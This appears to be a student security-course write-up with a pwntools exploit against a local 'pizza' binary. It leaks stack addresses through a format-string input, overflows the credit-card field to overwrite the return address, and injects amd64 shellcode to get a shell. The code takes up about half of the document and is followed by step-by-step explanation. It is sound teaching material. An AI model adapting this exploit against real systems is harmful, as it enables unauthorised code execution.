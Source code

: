 # Control Flow Integrity Violation


### Code:

```
from pwn import *

binary = ELF('./pizza')
context(arch='amd64', os='linux', endian='little', word_size=64)

shellcode = asm(shellcraft.amd64.sh(), arch='amd64')
print("shellcode size: " + str(len(shellcode)))

input1 = b'%p ' * 15

# Start the program
p = process('./pizza')
print(str(p.recvline(), "latin-1"))
#p.sendline(b"Bruce")
p.sendline(input1)
leak = str(p.recvline(), "latin-1")
print(leak)
leak = leak.split(' ')

# number of pizza input
p.sendline(b"1")
print(str(p.recvline(), "latin-1"))
print(str(p.recvline(), "latin-1"))
print(str(p.recvline(), "latin-1"))
print(str(p.recvline(), "latin-1"))
print(str(p.recvline(), "latin-1"))
print(str(p.recvline(), "latin-1"))
print(str(p.recvline(), "latin-1"))

return_addr = p64(int(leak[7], 16))
return_addr_1 = p64(int(leak[7], 16) + 0x20)

# credit card input
#payload = b'A' * 128 + b'CCCCCCCC' + return_addr + shellcode
payload = b'A' * 128 + return_addr + return_addr_1 + shellcode

#print(hex(id(return_addr)))
#print(payload)
#print(len(payload))

# card number payload
p.sendline(payload)

print(str(p.recvline(), "latin-1"))
#print(str(p.recvline(), "latin-1"))

#p.wait()
p.interactive()

'''
core = p.corefile
rsp = core.rsp
rbp = core.rbp
rip = core.rip

print(f"rsp: {hex(rsp)}")
print(f"rbp: {hex(rbp)}")
print(f"rip: {hex(rip)}")

top_of_stack = core.read(rsp, 8)
top_of_stack_1 = core.read(rsp+8, 8)
top_of_stack_2 = core.read(rsp+16, 8)
print(f"top of stack: {top_of_stack.hex()}")
print(f"top of stack 1: {top_of_stack_1.hex()}")
print(f"top of stack 2: {top_of_stack_2.hex()}")

'''

```

### Design & Functionality:

- There are a lot of trial and error steps in this assignment. We start with the given Python script in the assignment description.
- We run the pizza program and see that it needs 3 inputs and print out a few messages with its lifecycle.
- We try to crash the program and become successful in the credit card input. We observe that the program shows a segfault error if we enter more than 136 characters as the credit card number. The base pointer should be the last 8 bytes address and we need to find out what that address is.
- We obtain the shellcode that we are going to inject using `asm(shellcraft.amd64.sh(), arch='amd64')`.
- We use first `p.recvline()` to print out the welcome message.
- We send the first input line to the program as a bunch of `%p` to find the memory address of the base pointer. We deliberately crash the program by adding 1 more character (137 characters) than the threshold as the credit card number. As we inspect the output produced by the core file analysis, each time the address at location 7 is similar to the `rbp` address.
- We also see that the `rip` address is always 0x20 larger than the `rbp` address. So we capture the base pointer from location 7 and add 0x20 with it to get the `rip` address each time correctly.
- We use few `p.recvline()` to print the intermediate messages.
- Then we generate the card number payload by setting the padding (A * 128 bytes), the base pointer (8 bytes), the return address (8 bytes), and the shellcode (48 bytes), and then we inject it.
- We print one more rcvline() for the final message, use the interactive() function, and finally get the command line shell we are looking for.



